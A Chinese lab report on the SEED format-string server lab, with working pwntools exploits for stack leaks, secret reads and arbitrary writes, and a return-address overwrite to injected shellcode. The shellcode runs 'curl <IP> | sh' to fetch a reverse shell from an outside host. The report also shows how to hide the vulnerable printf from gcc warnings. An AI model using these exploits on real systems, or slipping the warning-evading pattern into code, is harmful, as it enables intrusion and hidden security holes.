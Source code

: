 # Week3 二进制利用进阶-格式化字符串
`注①：根据文档给出的shellcode可知该实验在i386环境下进行，故报告在Ubuntu20.04下尽量相同环境下完成。`  
`注②：程序根据下方链接中seed官网的代码编译`

## 任务1 编译有漏洞的服务器程序
`gcc -z execstack -o server server.c -m32`  
编译，爆出警告，属于是静态分析（匹配）就能找到的漏洞警告  
这个检测实际是gcc的
```
-Wformat -Wformat-nonliteral -Wformat-security -Wformat-y2k
```
选项干的，相当于`-Wformat=2`  
一般版本是默认开启的，当然也有些奇怪的情况会自动关闭

![图 2](images/195e23810f8b0b73a1215109248670cc707edbbd2413e0e30e16e32dea970a4d.png)  

## 任务2 分析漏洞程序的栈结构
`b main`断点后`n`步进和`s`步入到目标printf直接`stack 500`在pwndbg中打出栈的结构（从上往下地址从低到高）：
![图 6](images/3f68a6ce7b5138546eeff630df2d1251ef77693c96898913d709bb7593856f6c.png)  


### Question 1
- 1 0xffffc9f0
- 2 0xffffca8c
- 3 0xffffcb30

### Question 2
`0xffffcb30 - 0xffffc9f0 = 160`  
（我用的是 [官网](https://seedsecuritylabs.org/Labs_16.04/Software/Format_String_Server/files/server.c) 的版本，有100的dummy）

## 任务3 崩掉程序
输入一大堆`%s%s%s%s%s%s%s%s%s`就可以崩掉程序，因为栈上的东西不保证都是可读的地址，事实上极大概率不是可读的地址（除非正好有一堆连着初始化了的指针），所以非常容易报段错误（看看21年6月的iphone吧家人们）

因为随便找个格式化字符串的题这段都会崩就不截图了。

## 任务4 泄露程序内存   
### A 泄露任意栈上数据
经典的做法是输入
`AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.`
观察在`41414141`（也就是那四个A）前输出了多少个`.`即可知道格式化字符串在栈上的offset，同时泄露栈上数据
![图 1](images/6808a9a5c7e246caad8a95dfaa3319a14318cbf5d093cf05dc9e40666886491a.png)  

### B 泄露任意堆上数据
**说起来为什么.rodata段算heap的数据，很奇怪**
但不管Task名字，任务是泄露secret的内容，只要组合`$[num]%[fmt]`和一个地址就可以了。  
所以写个exp：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    # 0x565559e0是secret的地址，---是四字节对齐， 82是上一个任务算出的偏移80 +8/4
    p.sendline(b'%82$s---'+p32(0x565559e0))
    p.close()
```
![图 2](images/b122d61109e3e7450e1e1e222066c2e273060d3f10db8bd1d4c856dc4b7f8972.png)  

## 任务5 任意地址写
先按照要求解释接下来用到的一下代码（轮子）：  
`fmtstr_payload`是`pwnlib`的一个函数  
作用是根据格式化字符串在栈上的offset实现自动生成任意地址写payload  
原理就是简单粗暴的`$[num]%[fmt]`和根据需求使用的`%n`, `%hn`, `%hhn`，然后把地址放到对应位置，通过`%[num]c`复写。

当然在不同要求下也可以手动精心构造比`fmtstr_payload`生成的更短更特殊的格式化字符串，因为之前CTF写过太多了就不在这手搓了，既然本题给出了足够的长度，用现成轮子当然简单稳定高效。

因为targert是data段上的，所以也没偏移什么问题，关ASLR下不泄露地址也没关系。

### A 修改指定地址为任意值
### B 修改指定地址为指定值 0x500
### C 修改指定地址为指定值 0xFF990000
三合一exp：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    context.arch = 'i386'
    p.sendline(fmtstr_payload(80, {0x56557008: 0x114514}, write_size='byte'))
    p.sendline(fmtstr_payload(80, {0x56557008: 0x500}, write_size='byte'))
    p.sendline(fmtstr_payload(80, {0x56557008: 0xFF990000}, write_size='byte'))
    p.close()
```
![图 4](images/533b9ed9e31daded76c882fcdca0b6d62032da5431e53c6bb6696b5a07f5addc.png)  
![图 5](images/cc0583436e33903997c46efed850ef2ac1e40cb4a763c15358f431eebd7035fe.png) 
![图 6](images/a2761e6e46fdceca78603003e710bee567440a3f025b31b2300b4e39fa5e6be9.png)  

 

## 任务6 注入恶意代码
这步是7的前置，就不再赘述了，和7合并。

## 步骤7 反弹shell

其中攻击exp为：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    context.arch = 'i386'
    sc = asm(shellcraft.connect('vps IP', 1337) + shellcraft.dupsh())
    # 这里的malicious_code不是sc，是pdf中的shellcode改了exec中的内容
    p.sendline(fmtstr_payload(80, {0xffffca8c: 0xffffcb6c}, write_size='byte') + malicious_code)
    p.close()
```
需要做的就是把RA复写为shellcode所在地址，因为本题log会打栈地址，所以可以直接计算出栈地址和shellcode地址的偏移，如果关掉自动输出的话，就需要用格式化字符串泄露一个栈上的指向栈上的指针，然后计算偏移。

我的环境直接用shellcraft或者exp-db里的反弹shell代码都不行，所以还是用老师给的`exec('/bin/sh -c "/bin/rm myfile")`来弹（malicious_code）。  
修改的exec的内容为`curl 106.52.237.196 | sh`长度正好，用这个是因为这是我自己改的your-shell的脚本，适配非常多的*inx系统反弹shell，省去很多调试时间（比如目标机器上并没有nc），当然这个题里用pdf里给出的代码弹也是可以的。  

成功反弹shell的截图：  
![图 1](images/d71df5af23abdf8908a4b3d30c4db1b6b421af594f6eed16f950cf0e13bef821.png)  


左上角为攻击机，下方为被攻击的靶机服务器，右上角为接收反弹shell的vps

## 任务8 修复漏洞
根据题目要场景（复读），简单将  
```cpp
printf(msg);
```
改为
```cpp
printf("%s", msg);
```
就可以完成复读同时消除格式化字符串问题了，至于gcc的静态检查，参数个数匹配就可以通过，不会报warning了。

exp还能不能用？显然不行，人脑分析一下`printf("%s", msg)`就知道是当作纯文本输出了，代码甚至贴心的只接收了1499个字节，对1500的缓冲区也不存在obn问题。

但是更有趣的是，我们怎样骗过gcc的静态检查，在不报Warning的情况下仍然编译有漏洞的代码？

我们可以试试很简单却处于学术前沿（这话不是我说的，是某位刚发CCFA的学长说的）的做法：间接调用  
```cpp
...
    // printf(msg);
	int (*func[])(const char * c, ...) = { printf };
	func[0](msg);
...
```
然后发现gcc不报错了，但漏洞还是存在。
![图 7](images/31af4b6832f2cae840f2921170fb6ad90695006255d11d9d56c558fc35bf939b.png)  
